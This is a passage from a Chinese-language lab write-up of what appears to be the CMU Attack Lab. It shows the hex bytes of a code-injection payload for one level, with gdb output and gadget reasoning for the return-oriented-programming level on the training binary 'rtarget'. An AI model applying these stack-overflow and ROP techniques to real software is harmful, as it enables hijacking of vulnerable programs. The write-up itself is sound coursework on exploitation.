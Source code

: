 完整机器码如下
\begin{code}{text}
48 c7 c7 a8 dc 61 55    /* mov      $0x5561dca8,%
68 fa 18 40 00          /* pushq    $0x4018fa */ 
c3                      /* retq */
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* 0x5561dc78 */
35 39 62 39 39 37 66 61 /* "59b997fa" */
\end{code}
存于  中.

成功通过本关卡, 输出如下

\subsection{ROP: Level 2}

后两个关卡的攻击目标 \verb|rtarget| 在编译过程中启用了栈随机化, 并标记内存中的栈段为不可执行, 意味着基于代码注入的攻击失效. 欲令程序作出反常行为, 只能通过一系列现有代码片段来实现. 这些片段以 \verb|ret| 指令结尾, 称作garget. 实验要求使用给定的“garget farm"中的代码片段来完成ROP攻击.

本关卡继承第2关, 要求在 \verb|getbuf| 函数返回时调用 \verb|touch2| 函数, 同时传入cookie值. 经检验, \verb|rtarget| 与 \verb|ctarget| 有相似结构, 其中 \verb|touch2|, \verb|touch3| 函数的地址均相同.
\begin{code}{text}
(gdb) file rtarget
Load new symbol table from "rtarget"? (y or n) y
Reading symbols from rtarget...
(gdb) print touch2
$3 = {void (unsigned int)} 0x4017ec <touch2>
(gdb) print touch3
$4 = {void (char *)} 0x4018fa <touch3>
\end{code}

观察  中各个函数的结构, 显然并不存在 “\verb|mov $0x59b997fa, %rdi|" 等含立即数的复杂指令. 为了将 \verb|rdi| 设置为 \verb|0x59b997fa|, 应当优先考虑 “\verb|movq %rax,%rbx|"“\verb|popq %rax|" 等编码简单的指令. 

